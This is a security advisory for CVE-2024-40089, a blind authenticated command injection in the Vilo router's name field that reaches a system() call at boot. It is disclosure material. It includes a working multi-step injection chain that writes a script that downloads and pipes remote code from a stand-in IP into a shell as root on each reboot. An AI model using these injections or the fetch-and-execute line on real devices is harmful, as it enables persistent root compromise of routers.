 # [CVE-2024-40089](https://www.cve.org/CVERecord?id=CVE-2024-40089): Blind Authenticated Command Injection in Vilo Name
* **CVSS Score** - 9.1, Critical ([CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H))
* **Overview** - The "Vilo Name" is a field that can be changed in the app, and ends up changing the hostname of the main Vilo router. The hostname ends up being piped into the middle of a `udhcpc` command ran through C's `system()` function. Therefore, setting the Vilo name to something like `; touch /tmp/hacked;` and restarting the router will cause the `touch /tmp/hacked` command to be run on startup. It's important to note that the command injection does have a limit of 32 characters, but it's easy to get past this roadblock. It's also important to note that if the exploiter has physical access to the device, they can connect through the hardware's UART pins and see the output for the commands during bootup, making the command injection not blind.
* **Description**
    * When the router is rebooted, one of the processes ran on startup is `/bin/sysconf`. The `sysconf` binary will run the `system("udhcpc -i %s -p %s -s %s -h %s -a 5 &")` command, and the name of the router is put in the last `%s` format string (right before `-a 5 &`). When the Vilo name is changed to something like `; whoami;`, the `system()` call ends up being `'udhcpc ...; whoami; ...'` and our code is executed.
* **Steps to Reproduce**
    * Due to the 32 character injection limit, it's hard to establish a shell or run longer commands. To get past that, we exploited the command injection multiple times and wrote to a file, then executed that file. Each of the commands are listed below.
    ```bash
    ;echo '#!/bin/sh' > /hualai/b;
    ;echo -n 'wget ht'>>/hualai/b;
    ;echo -n 'tp://11'>>/hualai/b;
    ;echo -n '1.222.3'>>/hualai/b;
    ;echo -n '.444:55'>>/hualai/b;
    ;echo -n '55 -qO-'>>/hualai/b;
    ;echo '|ash'>>/hualai/b;
    ;cat /hualai/b;
    ;chmod +x /hualai/b;
    ;sleep 20 &&(/hualai/b)&
    ```
    * *(see image below)* To exploit each command injection click on the edit button for the Vilo router in the Vilo app. For the Vilo name, enter the next command.
    * After exploiting it 10 times for each of the 10 commands, it should create a file at `/hualai/b` with the contents below:
    ```bash
    #!/bin/sh
    wget http://111.222.3.444:5555 -qO-|ash
    ```
    * It then makes that file executable and runs it. The last command is `;sleep 20 &&(/hualai/b)&` because the network isn't available to the operating system when the command is ran, so it waits 20 seconds and then runs the script file.
    * At this point, every time the router is rebooted it will reach out to a public webserver running on port 5555 with the IP `111.222.3.444`, download the contents, and run those contents as shell commands. 
* **Impact** - Anyone with app access to a router has arbitrary code execution as root on the underlying operating system.

<img src="./resources/vilo.jpg" width="600px">